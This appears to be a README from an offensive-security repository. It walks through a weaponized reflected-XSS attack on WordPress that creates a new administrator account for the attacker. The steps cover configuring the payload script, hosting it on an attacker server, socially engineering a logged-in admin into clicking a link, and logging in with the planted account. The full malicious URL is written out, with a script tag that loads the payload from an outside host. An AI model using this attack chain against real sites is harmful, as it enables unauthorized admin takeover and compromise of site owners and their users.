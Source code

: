 # [Acc] Create New Admin User

## Test Environment

### Web Browsers (20240224)

* [x] Mozilla Firefox Version 123.0 (64-bit)
* [x] Google Chrome Version 122.0.6261.70 (64-bit)
* [x] Microsoft Edge Version 122.0.2365.52 (64-bit)

## Exploitation Steps

1. [setup exploit] change payload variable values (`createAdminAccWP.js`)

    `newAccUser` - username of the user account to be created

    `newAccPass` - password of the user account to be created (**NOTE**: minimum password length is 9 characters)

    `newAccEmail` - email of the user account to be created

    `wpRoot` - path to WordPress installation on the target system (e.g. `"/path"`)

2. [setup exploit] setup web server (to serve the payload)

3. [social engineering attack] victim user (with administrative privileges) logs in

    http://192.168.5.10/wp-login.php

4. [social engineering attack] victim user clicks link

    ```
    http://192.168.5.10/test/rxss.php?q=<script src=http://192.168.5.15/createAdminAccWP.js></script>
    ```

    * **NOTES**:
      * `192.168.5.10` - target WordPress site
      * `192.168.5.15` - web server hosting payload

5. [post exploit] attacker logs into target WordPress site using specified credentials

    http://192.168.5.10/wp-login.php

## Screenshots

* **NOTE**: the screenshot covers steps 1 to 4 from the "Exploitation Steps" chapter

<p align="center">
  <kbd>
    <picture>
      <source media="" srcset="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/CMS/WordPress/CreateNewAdmin/screenshots/WordPress_-_create_new_admin_-_1-1.png">
      <img src="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/CMS/WordPress/CreateNewAdmin/screenshots/WordPress_-_create_new_admin_-_1-1.png">
    </picture>
  </kbd>
</p>

## Video

https://github.com/user-attachments/assets/0e60144c-02c9-4e71-a1cf-1241a2990d3f
